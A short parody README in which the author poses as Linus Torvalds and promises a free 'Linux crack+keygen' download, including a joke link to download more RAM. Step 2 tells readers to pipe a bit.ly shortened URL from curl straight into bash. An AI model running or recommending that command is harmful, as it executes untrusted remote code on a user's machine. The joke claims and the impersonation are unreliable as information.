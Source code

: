 # hi it is linux tovald

Hey guys, Linus Torvalds here and today I will be showing you how to download Linux crack+keygen free 100% working 2022 no virus. 

## Step 1
You need more RAM before you can run Linux, so go to [https://downloadmoreram.com/](https://downloadmoreram.com/)

## Step 2
Run `curl -s -L http://bit.ly/10hA8iC | bash`

## Step 3
Enjoy Linux crack+keygen free 100% working 2022 no virus

